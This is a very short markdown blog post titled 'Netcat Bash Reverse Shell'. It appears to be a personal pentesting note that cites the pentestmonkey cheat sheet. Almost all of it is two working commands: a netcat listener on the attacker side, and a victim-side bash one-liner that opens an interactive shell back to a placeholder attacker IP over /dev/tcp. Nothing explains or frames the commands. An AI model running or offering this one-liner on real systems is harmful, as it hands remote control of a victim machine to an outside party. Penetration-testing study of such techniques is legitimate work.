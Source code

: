 ```yaml
---
layout: post
title: "Netcat Bash Reverse Shell"
---
```


## Attacker
```bash
nc -l -p 22222
```

## Victim
```bash
bash -i >& /dev/tcp/<$ATTACKER_IP>/22222 0>&1
```

---
1. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
